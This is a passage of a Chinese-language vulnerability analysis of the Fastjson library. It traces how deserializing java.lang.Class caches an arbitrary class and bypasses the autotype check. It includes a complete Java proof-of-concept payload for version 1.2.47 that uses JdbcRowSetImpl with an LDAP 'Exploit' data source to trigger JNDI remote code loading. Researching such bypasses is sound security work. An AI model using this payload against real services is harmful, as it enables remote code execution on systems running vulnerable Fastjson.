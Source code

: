 之后全局查找所有调用了该函数位置，并且cache设置为true的函数，发现只有它的重载函数：

![]()

![]()

  *   *   * 

    
    
        public static Class<?> loadClass(String className, ClassLoader classLoader) {        return loadClass(className, classLoader, true);    }

之后继续寻找调用了该重载的地方，发现在MiscCode处有调用：

![]()

  *   *   * 

    
    
            if (clazz == Class.class) {            return (T) TypeUtils.loadClass(strVal, parser.getConfig().getDefaultClassLoader());        }

上面的逻辑是当class是一个java.lang.Class类时，会去加载指定类(从而也就无意之间加入了mappings缓存)，而java.lang.Class同时也是个默认特殊类——deserializers.findClass指定类，可以直接反序列化，所以可以首先通过反序列化java.lang.Class指定恶意类，然后恶意类被加入mappings缓存后，第二次就可以直接从缓存中获取到恶意类，并进行反序列化：

![]()

1.2.47的有效载荷如下：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    package com.FastJson1242;  
    import com.alibaba.fastjson.JSONObject;  
    public class Poc {    public static void main(String[] argv){        String payload ="{\n" +                "    \"a\": {\n" +                "        \"@type\": \"java.lang.Class\", \n" +                "        \"val\": \"com.sun.rowset.JdbcRowSetImpl\"\n" +                "    }, \n" +                "    \"b\": {\n" +                "        \"@type\": \"com.sun.rowset.JdbcRowSetImpl\", \n" +                "        \"dataSourceName\": \"ldap://localhost:1099/Exploit\", \n" +                "        \"autoCommit\": true\n" +                "    }\n" +                "}";        JSONObject.parseObject(payload);    }}

执行结果如下：

![]()

##### exceptClass期望类

###### ThrowableDeserializer

期望类的功能主要是实现/继承了期望类的class能被反序列化出来且不受autotype影响，默认情况下exceptClass这个参数是空的，也就不存在期望类的特性，之后全局搜索checkAutoType的调用，且条件是exceptClass不为空：

![]()
